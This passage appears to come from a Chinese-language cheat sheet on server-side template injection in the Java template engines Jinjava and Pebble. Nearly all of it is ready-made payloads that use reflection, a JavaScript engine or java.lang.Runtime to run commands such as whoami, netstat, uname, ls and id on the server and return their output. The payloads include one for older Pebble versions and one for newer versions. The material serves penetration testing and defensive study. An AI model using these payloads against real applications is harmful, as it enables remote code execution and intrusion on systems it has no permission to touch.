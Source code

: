 ```python
{{'a'.toUpperCase()}} 将结果为'A'
{{ request }} 将返回一个请求对象如com.[...].context.TemplateContextRequest@23548206
```

Jinjava是由Hubspot开发的开源项目，可在[https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)获取。

### Jinjava - 命令执行

通过[HubSpot/jinjava PR #230](https://github.com/HubSpot/jinjava/pull/230)修复

```ps1
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

---

## Pebble

[官方网站](https://pebbletemplates.io/)

> Pebble 是一个受Twig启发的Java模板引擎，类似于Python的Jinja模板引擎语法。它支持模板继承和易读的语法，内置自动转义功能以提高安全性，并包括对国际化的一体化支持。

### Pebble - 基本注入

```java
{{ someString.toUPPERCASE() }}
```

### Pebble - 代码执行

Pebble旧版本（< 版本3.0.9）：`{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}`。

Pebble新版本：

```java
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

---